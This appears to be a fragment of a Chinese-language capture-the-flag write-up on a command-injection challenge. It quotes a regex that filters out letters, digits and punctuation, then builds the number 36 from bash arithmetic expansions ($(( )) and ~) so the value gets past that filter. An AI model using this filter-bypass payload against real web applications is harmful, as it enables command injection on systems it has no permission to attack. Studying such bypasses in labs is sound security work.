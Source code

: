过滤了

```
"/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i"
```

但是分析代码，只要我们传入一个c=36就可以

构建36

```
$(())=0
对其进行取反
$((~$(())))=-1
构建出36，就是构建-37然后进行取反
$((~$((加上37个-1))))
$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))
))))=36
```

![image-20240120211436696](照片/image-20240120211436696.png)
